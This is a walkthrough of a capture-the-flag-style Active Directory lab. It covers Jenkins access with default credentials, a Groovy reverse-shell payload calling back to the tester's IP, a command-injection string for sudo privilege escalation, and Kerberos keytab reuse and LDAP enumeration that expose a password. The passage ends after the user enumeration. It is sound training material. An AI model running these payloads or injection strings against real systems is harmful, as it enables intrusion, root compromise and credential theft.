In this walkthrough, we will be compromising Anomaly, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting with no credentials and VPN access to two in-scope hosts: an Ubuntu server and the domain controller. Port 8080 on the Ubuntu box runs a Jenkins instance that takes `admin:admin`, and its script console gives us a reverse shell as the `jenkins` user. A NOPASSWD sudo entry for a custom `router_config` binary builds a shell command around our argument, and command injection through it returns root. The box is domain-joined, and a readable Kerberos keytab lets us `kinit` a ticket as `Brandon_Boyd`, whose password is sitting in his AD description field. That account reaches a certificate template flagged ESC1, and because Domain Computers holds the enrollment right, we create a machine account and request a certificate as the Domain Admin `anna_molly`. The KDC rejects the certificate over PKINIT, so we present it over Schannel instead and reset her password from an LDAP shell. WinRM is closed, and AV catches the standard execution tools, so we land a shell on the domain controller as `anna_molly` with wmiexec2, built to evade it.


Created by: [Ryan Yager](https://www.hacksmarter.org/courses/336f34fa-2097-4b41-9e05-16698e68dcea)

Let's get started.

## Objective

The core objective is to demonstrate the full impact of a successful network intrusion by achieving Domain Administrator privileges over the client's Active Directory environment. The test will simulate a motivated external attacker's progression from an initial foothold to complete administrative control.

## Scope

**Target (Ubuntu):** `10.0.31.54`

**Target (DC):** `10.0.27.56`

## RustScan (DC)

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.0.27.56 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-09-25 18:29:40Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: anomaly.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=Anomaly-DC.anomaly.hsm
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Anomaly-DC.anomaly.hsm
| Issuer: commonName=anomaly-ANOMALY-DC-CA-2/domainComponent=anomaly
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-22T18:23:53
| Not valid after:  2027-09-22T18:23:53
| MD5:     5531 bb97 54f3 5562 6e00 33c6 3d1b 0a1f
| SHA-1:   1079 2b5e e90e b8df 28be 4880 b8c4 80d7 af91 8dd2
| SHA-256: 1b43 506a c469 0552 d79a 7504 c187 2243 1ed4 cb85 5a3d 9cd4 0749 70b1 36ce e1e4
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: anomaly.hsm, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Anomaly-DC.anomaly.hsm
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Anomaly-DC.anomaly.hsm
| Issuer: commonName=anomaly-ANOMALY-DC-CA-2/domainComponent=anomaly
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-22T18:23:53
| Not valid after:  2027-09-22T18:23:53
| MD5:     5531 bb97 54f3 5562 6e00 33c6 3d1b 0a1f
| SHA-1:   1079 2b5e e90e b8df 28be 4880 b8c4 80d7 af91 8dd2
| SHA-256: 1b43 506a c469 0552 d79a 7504 c187 2243 1ed4 cb85 5a3d 9cd4 0749 70b1 36ce e1e4
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: anomaly.hsm, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Anomaly-DC.anomaly.hsm
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Anomaly-DC.anomaly.hsm
| Issuer: commonName=anomaly-ANOMALY-DC-CA-2/domainComponent=anomaly
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-22T18:23:53
| Not valid after:  2027-09-22T18:23:53
| MD5:     5531 bb97 54f3 5562 6e00 33c6 3d1b 0a1f
| SHA-1:   1079 2b5e e90e b8df 28be 4880 b8c4 80d7 af91 8dd2
| SHA-256: 1b43 506a c469 0552 d79a 7504 c187 2243 1ed4 cb85 5a3d 9cd4 0749 70b1 36ce e1e4
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: anomaly.hsm, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Anomaly-DC.anomaly.hsm
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:Anomaly-DC.anomaly.hsm
| Issuer: commonName=anomaly-ANOMALY-DC-CA-2/domainComponent=anomaly
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-22T18:23:53
| Not valid after:  2027-09-22T18:23:53
| MD5:     5531 bb97 54f3 5562 6e00 33c6 3d1b 0a1f
| SHA-1:   1079 2b5e e90e b8df 28be 4880 b8c4 80d7 af91 8dd2
| SHA-256: 1b43 506a c469 0552 d79a 7504 c187 2243 1ed4 cb85 5a3d 9cd4 0749 70b1 36ce e1e4
3389/tcp  open  ms-wbt-server syn-ack ttl 126
| ssl-cert: Subject: commonName=Anomaly-DC.anomaly.hsm
| Issuer: commonName=Anomaly-DC.anomaly.hsm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-21T18:32:40
| Not valid after:  2027-03-23T18:32:40
| MD5:     8668 373f 1bfd 569b 92e2 c408 4df8 87b3
| SHA-1:   f55a b110 b043 33b7 5dcf b2ec 5085 3e47 2c9a 8d6c
| SHA-256: 8643 b34c 5226 8ec8 6a06 214a 1f63 29b7 4da5 4866 2f8e dd9a 5c89 041b 8915 c505
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info: 
|   Target_Name: ANOMALY
|   NetBIOS_Domain_Name: ANOMALY
|   NetBIOS_Computer_Name: ANOMALY-DC
|   DNS_Domain_Name: anomaly.hsm
|   DNS_Computer_Name: Anomaly-DC.anomaly.hsm
|   DNS_Tree_Name: anomaly.hsm
|   Product_Version: 10.0.26100
|_  System_Time: 2026-09-25T18:30:35+00:00
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49691/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
59647/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, and RDP on 3389, with IIS on 80 also exposed, which is not part of a default domain controller install. The LDAP banner names the domain `anomaly.hsm`, and the certificate subject and RDP NTLM info give the hostname `Anomaly-DC.anomaly.hsm`.

## RustScan (Ubuntu)

The objective runs from an initial foothold to full domain control, and with the domain controller as that endpoint, the way in is the Ubuntu server. We scan it the same way.

```
rustscan -a 10.0.31.54 -- -sC -sV
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 59:fd:d9:aa:94:96:4c:7d:31:9f:91:e3:8e:09:be:88 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLRjIBHGgajtzpE/5Q9CWTvQ5kXwS5QW/ZJJWOQTvp4pf68OiPKnZQsRaiStrMoLGZPPfvcinVQ73Ul0pji9fTw=
|   256 9d:24:89:b9:19:5c:73:b3:24:d2:89:ca:0d:0e:52:3a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGVWb6HHdRut01ONeWPLXHyblKLaRNlnMkM8iSZsms/6
8080/tcp open  http    syn-ack ttl 62 Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH is on 22 and a Jetty web server is on 8080. Before the web server, we check what authentication SSH accepts.

```
ssh root@10.0.31.54
```

```
The authenticity of host '10.0.31.54 (10.0.31.54)' can't be established.
ED25519 key fingerprint is: SHA256:hF75gHu09sx3FSQhIWBoQ1qR/nlLGXX3B0q8XzbVyO4
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.31.54' (ED25519) to the list of known hosts.
root@10.0.31.54: Permission denied (publickey).
```



*SSH accepting only public-key authentication, so there is nothing to try against it*

SSH takes only public keys, so we move to port 8080.

## HTTP (Port 8080)

Port 8080 serves a Jenkins instance, and it drops us straight at the login panel.



*The Jenkins login panel served on port 8080*

We try default credentials. `admin:admin` logs in as a Jenkins administrator.

## Shell as jenkins

A Jenkins administrator can open the script console at Manage Jenkins > Script Console, which executes Groovy on the controller as the `jenkins` service user, so the admin session is enough to run our own code on the server. We drop in a short script that calls back to our host.

```
String payload = "bash -i >& /dev/tcp/10.200.62.192/1337 0>&1";
String[] cmd = ["/bin/bash", "-c", payload];
cmd.execute();
```

Update the IP and port to your own.



*The reverse-shell payload staged in the Jenkins script console*

We start Penelope, a reverse shell handler that upgrades the session to a full TTY on its own, and leave it listening on our port.

```
penelope -p 1337
```

With the listener up, we run the script back in the console, and Penelope catches the shell.

```
whoami
```

```
jenkins
```



*Penelope receiving the reverse shell as the jenkins user*

## Shell as root (user.txt)

We check what `jenkins` can run under sudo.

```
sudo -l
```

```
User jenkins may run the following commands on ip-10-0-31-54:
    (ALL) NOPASSWD: /usr/bin/router_config
```



*sudo -l showing jenkins can run /usr/bin/router_config as root without a password*

`jenkins` can run `/usr/bin/router_config` as root with no password. It is an ELF binary rather than a script, so we pull the strings out of it to see what it does.

```
strings /usr/bin/router_config
```

```
/lib64/ld-linux-x86-64.so.2
snprintf
puts
__stack_chk_fail
system
__libc_start_main
__cxa_finalize
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Welcome to Router Configuration Utility v1.2
Usage: %s <config_file>
Applying configuration...
echo Applying config from %s; %s
Configuration applied successfully!
9*3$"
GCC: (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
```



*strings showing the system import alongside the command the binary builds*

`strings` shows the binary builds a command from our input: `echo Applying config from %s; %s`, with our argument dropped into the `%s`. It passes that to `system`, and `system` runs whatever it is given as a shell command, so our argument becomes part of that command.

We create an empty file to use as the config path.

```
touch /tmp/test.conf
```

In our argument, a semicolon tells the shell to end the `echo` and start a new command of our own, `/bin/bash`. The binary runs under sudo as root, so the shell it spawns runs as root.

```
sudo /usr/bin/router_config '/tmp/test.conf; /bin/bash'
```

```
whoami
```

```
root
```



*A root shell on the Ubuntu host, with whoami returning root*

We are root, and `user.txt` is in `/root`.



*The root shell with user.txt listed in /root*

## Access as Brandon_Boyd

Looking around as root, we find the box is domain-joined: a Kerberos config and keytab both sit under `/etc`.

```
ls -lah /etc/krb5.*
```

```
-rw-r--r-- 1 root root 278 Sep 21  2025 /etc/krb5.conf
-rw-r--r-- 1 root root  80 Sep 21  2025 /etc/krb5.keytab
```



*The world-readable krb5.conf and krb5.keytab under /etc*

The `krb5.conf` points at the `ANOMALY.HSM` realm with `Anomaly-DC.anomaly.hsm` as the KDC (Key Distribution Center).

```
cat /etc/krb5.conf
```

```
[libdefaults]
 default_realm = ANOMALY.HSM
 dns_lookup_realm = true
 dns_lookup_kdc = true

[realms]
 ANOMALY.HSM = {
  kdc = Anomaly-DC.anomaly.hsm
  admin_server = Anomaly-DC.anomaly.hsm
 }

[domain_realm]
 .anomaly.hsm = ANOMALY.HSM
 anomaly.hsm = ANOMALY.HSM
```

`klist` reads the keytab and names its principal, `Brandon_Boyd`.

```
klist -k -t -K /etc/krb5.keytab
```

```
Keytab name: FILE:/etc/krb5.keytab
KVNO Timestamp         Principal
---- ----------------- --------------------------------------------------------
   0 01/01/70 00:00:00 Brandon_Boyd@ANOMALY.HSM (0xf9754c5288b844eb86054695b2c12b93716f57c41d26325c1a994e12bbbeff52)
```



*klist listing the keytab entry for Brandon_Boyd*

We pull the keytab and the config back to our machine with Penelope's download.

```
# F12 to open the Penelope menu
download /etc/krb5.keytab
download /etc/krb5.conf
```



*Penelope pulling the keytab and krb5.conf back to our machine*

Pulling an NT hash out of the keytab fails, but we do not need one. A keytab holds the principal's long-term Kerberos keys, so `kinit` can use it to request a ticket-granting ticket with no password.

For that, our attacker machine needs the domain's Kerberos settings, so we drop the config we pulled into place at `/etc/krb5.conf`, where `kinit` reads it by default.

```
sudo cp krb5.conf /etc/krb5.conf
```

We also add `anomaly.hsm` and `Anomaly-DC.anomaly.hsm` to `/etc/hosts` so the KDC name resolves.

We run `kinit` against the keytab to get a ticket as `Brandon_Boyd`.

```
kinit -kt krb5.keytab Brandon_Boyd@ANOMALY.HSM
```

`klist` confirms the TGT, cached at `/tmp/krb5cc_1000`.

```
klist
```

```
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: Brandon_Boyd@ANOMALY.HSM

Valid starting       Expires              Service principal
09/30/2026 18:04:18  10/01/2026 04:04:18  krbtgt/ANOMALY.HSM@ANOMALY.HSM
        renew until 10/01/2026 18:04:18
```



*klist showing a valid TGT for Brandon_Boyd from the keytab*

We point `KRB5CCNAME` at the cache so tools pick it up.

```
export KRB5CCNAME=/tmp/krb5cc_1000
```

NetExec takes the cache with `--use-kcache` and authenticates as `Brandon_Boyd`, with read on the default shares.

```
nxc smb anomaly.hsm -u brandon_boyd -k --use-kcache --shares
```

```
SMB         anomaly.hsm     445    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 x64 (name:ANOMALY-DC) (domain:anomaly.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         anomaly.hsm     445    ANOMALY-DC       [+] ANOMALY.HSM\brandon_boyd from ccache 
SMB         anomaly.hsm     445    ANOMALY-DC       [*] Enumerated shares
SMB         anomaly.hsm     445    ANOMALY-DC       Share           Permissions     Remark
SMB         anomaly.hsm     445    ANOMALY-DC       -----           -----------     ------
SMB         anomaly.hsm     445    ANOMALY-DC       ADMIN$                          Remote Admin
SMB         anomaly.hsm     445    ANOMALY-DC       C$                              Default share
SMB         anomaly.hsm     445    ANOMALY-DC       IPC$            READ            Remote IPC
SMB         anomaly.hsm     445    ANOMALY-DC       NETLOGON        READ            Logon server share 
SMB         anomaly.hsm     445    ANOMALY-DC       SYSVOL          READ            Logon server share 
```



*Validating brandon_boyd credentials with NetExec*

## LDAP Enumeration

BloodHound is the natural next step, but NetExec's collector needs a username and password and will not take our ccache.

```
nxc ldap anomaly.hsm -u brandon_boyd -k --use-kcache --bloodhound --collection All --dns-server 10.0.27.56
```

```
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:ANOMALY.HSM) (signing:Enforced) (channel binding:When Supported) 
LDAP        anomaly.hsm     389    ANOMALY-DC       [+] ANOMALY.HSM\Brandon_Boyd from ccache 
LDAP        anomaly.hsm     389    ANOMALY-DC       Resolved collection methods: trusts, group, session, psremote, rdp, localadmin, container, acl, dcom, objectprops
LDAP        anomaly.hsm     389    ANOMALY-DC       Using kerberos auth without ccache, getting TGT
LDAP        anomaly.hsm     389    ANOMALY-DC       Using kerberos auth from ccache
LDAP        anomaly.hsm     389    ANOMALY-DC       [-] BloodHound collection failed: LDAPUnknownAuthenticationMethodError - NTLM needs domain\username and a password
```

A plain LDAP user enumeration still works with the ccache, though, so we list the domain users.

```
nxc ldap anomaly.hsm -u brandon_boyd -k --use-kcache --users
```

```
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Windows 11 / Server 2025 Build 26100 (name:ANOMALY-DC) (domain:ANOMALY.HSM) (signing:Enforced) (channel binding:When Supported) 
LDAP        anomaly.hsm     389    ANOMALY-DC       [+] ANOMALY.HSM\Brandon_Boyd from ccache 
LDAP        anomaly.hsm     389    ANOMALY-DC       [*] Enumerated 5 domain users: ANOMALY.HSM
LDAP        anomaly.hsm     389    ANOMALY-DC       -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        anomaly.hsm     389    ANOMALY-DC       Administrator                 2025-09-17 08:01:03 0        Built-in account for administering the computer/domain      
LDAP        anomaly.hsm     389    ANOMALY-DC       Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        anomaly.hsm     389    ANOMALY-DC       krbtgt                        2025-09-21 07:54:56 0        Key Distribution Center Service Account                     
LDAP        anomaly.hsm     389    ANOMALY-DC       Brandon_Boyd                  2025-11-12 15:30:05 1        3edc4rfv#EDC$RFV                                            
LDAP        anomaly.hsm     389    ANOMALY-DC       anna_molly                    2025-11-12 15:29:16 0     
```



*NetExec listing the domain users, with a password left in Brandon_Boyd's description field*

`Brandon_Boyd`'s description field carries what looks like a password, `3edc4rfv#EDC$RFV`, and the enumeration also turns up `anna_molly`.

